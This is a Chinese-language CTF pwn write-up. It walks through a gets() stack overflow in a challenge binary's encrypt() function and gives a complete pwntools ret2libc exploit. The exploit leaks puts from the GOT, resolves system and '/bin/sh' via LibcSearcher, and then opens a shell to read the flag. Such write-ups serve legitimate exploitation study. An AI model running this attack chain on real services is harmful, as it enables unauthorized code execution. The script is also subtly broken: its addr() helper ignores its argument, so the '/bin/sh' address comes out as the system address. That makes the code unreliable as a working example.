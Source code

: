 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711351646091-473c80bb-b081-42ab-8ac4-c0056c3d0612.png#averageHue=%23252b31&clientId=u620920a9-0c5a-4&from=paste&height=837&id=udceb363e&originHeight=837&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77709&status=done&style=none&taskId=uf8026596-f5cf-4eba-8c81-54db3d2e112&title=&width=743)
### 下载好附件之后，先丢到 checksec 看一下开了什么保护
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352413112-e07b4481-0817-474b-a5fa-d8798dd613aa.png#averageHue=%230f2427&clientId=u620920a9-0c5a-4&from=paste&height=232&id=u89d82581&originHeight=232&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68848&status=done&style=none&taskId=ua511d451-1fed-4ec3-a568-a8a36e7e009&title=&width=510)
### 有栈溢出：Stack:    No canary found
### 丢到IDE看一下
按 shift+f12 看一下字符串，发现没有system和/bin/sh
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352579899-135f5402-e48a-4ea6-b344-852335ccc132.png#averageHue=%23474643&clientId=u620920a9-0c5a-4&from=paste&height=778&id=u4db6c5e4&originHeight=778&originWidth=1270&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99914&status=done&style=none&taskId=u2ce971c1-d1e2-43e4-b876-c32c3f0e983&title=&width=1270)
回到上方标签（ IDA View-A ）回到主界面按f5查看伪代码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352692527-afcf4d9d-6877-4d39-a135-4f0eb2c97599.png#averageHue=%23312f2e&clientId=u620920a9-0c5a-4&from=paste&height=611&id=ud92e9b96&originHeight=611&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51416&status=done&style=none&taskId=u13a2e265-49fe-4f58-b123-01d09949aa7&title=&width=681)

发现encrypt()函数存在gets溢出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352763184-253e4de4-f0d8-49da-9571-6c0791920b65.png#averageHue=%23302f2e&clientId=u620920a9-0c5a-4&from=paste&height=571&id=ub68ac996&originHeight=571&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29792&status=done&style=none&taskId=ub44cb765-8eae-416f-95fd-f22e5563db2&title=&width=432)

gets没有任何限制，但是储存用户输入的s只有50的大小，加上r的大小就能溢出
双击s查看
```
0000000000000050 s db 48 dup(?)   // s的大小只有50
-0000000000000020 anonymous_0 dw ?
-000000000000001E db ? ; undefined
-000000000000001D db ? ; undefined
-000000000000001C db ? ; undefined
-000000000000001B db ? ; undefined
-000000000000001A db ? ; undefined
-0000000000000019 db ? ; undefined
-0000000000000018 db ? ; undefined
-0000000000000017 db ? ; undefined
-0000000000000016 db ? ; undefined
-0000000000000015 db ? ; undefined
-0000000000000014 db ? ; undefined
-0000000000000013 db ? ; undefined
-0000000000000012 db ? ; undefined
-0000000000000011 db ? ; undefined
-0000000000000010 db ? ; undefined
-000000000000000F db ? ; undefined
-000000000000000E db ? ; undefined
-000000000000000D db ? ; undefined
-000000000000000C db ? ; undefined
-000000000000000B db ? ; undefined
-000000000000000A db ? ; undefined
-0000000000000009 db ? ; undefined
-0000000000000008 db ? ; undefined
-0000000000000007 db ? ; undefined
-0000000000000006 db ? ; undefined
-0000000000000005 db ? ; undefined
-0000000000000004 db ? ; undefined
-0000000000000003 db ? ; undefined
-0000000000000002 db ? ; undefined
-0000000000000001 db ? ; undefined
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?) // r 的大小有8
```
### 开始构造第一个payload
因为这个程序是64位的，要查看指令地址
在kali里面运行命令：
```bash
ROPgadget --binary pwn --only "pop|ret"
# 这里的 pwn 是你的文件名，我为了方便改了
```
得到结果：
```bash
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret // 记住这个地址 0x400c83
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret // 记住这个地址 0x4006b9
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```
构造payload
tips：因为gets的s参数的大小只有50，r的大小有8。这两个数值都是16进制,所以
```python
b'a' * (0x50+0x8) # 溢出的大小 
```
## 完整exp
```python
def payload(url, port):
    context(arch="amd64",os="linux",log_level="debug")
    elf = ELF('./pwn') # 文件路径
    p = remote(url,port)
    # 指令地址
    pop_rdi_ret = 0x400c83
    ret = 0x4006b9
    # 查找地址
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    # 加密函数地址
    enc = elf.sym['encrypt']
    # 构造payload
    pd1 = b'a' * (0x50+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(enc)
    # 发送选项1，选择加密
    p.sendlineafter('choice!',str(1))
    # 发送payload到加密函数的输入上去
    p.sendlineafter('encrypt',pd1)
    # 找到libc地址
    put = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print(hex(put)) 
    # 输出
    """ >>> 0x7f2961b099c0 """
    print('选择 libc6_2.27-0ubuntu2_amd64')
    libc = LibcSearcher('puts',put)
    libc_base = put - libc.dump('puts')
    # 获取system和sh
    def addr(hx):
        return libc_base + libc.dump('system')
    sys_addr = addr('system')
    sh_addr = addr('str_bin_sh')
    print(hex(sys_addr),hex(sh_addr))
    
    # 构造第二个payload
    pd2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
    # 利用
    p.sendlineafter('encrypt',pd2)
    p.interactive()

if __name__ == '__main__':
    from pwn import *  # 导入pwntools库 
    # Windows没有库的话，安装命令：pip install pwntools
    from LibcSearcher import *  # 导入LibcSearcher库 
    url = ''  # 题目地址
    payload(url.split(":")[0], url.split(":")[1])  # 调用payload函数进行渗透
```
### 运行提示
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354129056-95ca2de8-de74-41a4-98d5-c08e3d114d3f.png#averageHue=%23282624&clientId=u620920a9-0c5a-4&from=paste&height=723&id=ub5aff1b5&originHeight=723&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78750&status=done&style=none&taskId=ubb332ef5-0879-4ddb-8e14-c52e7bcca2b&title=&width=721)

看到有一排的a时，输入命令：ls
ls 运行完后 输出 cat flag得到

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354169453-c9eaac9e-f6ac-4f71-bcbc-fbe6e25f0f7d.png#averageHue=%23252423&clientId=u620920a9-0c5a-4&from=paste&height=707&id=uf1a28670&originHeight=707&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39501&status=done&style=none&taskId=ua50f74f6-32df-4596-b9b9-5280a4d6056&title=&width=547)
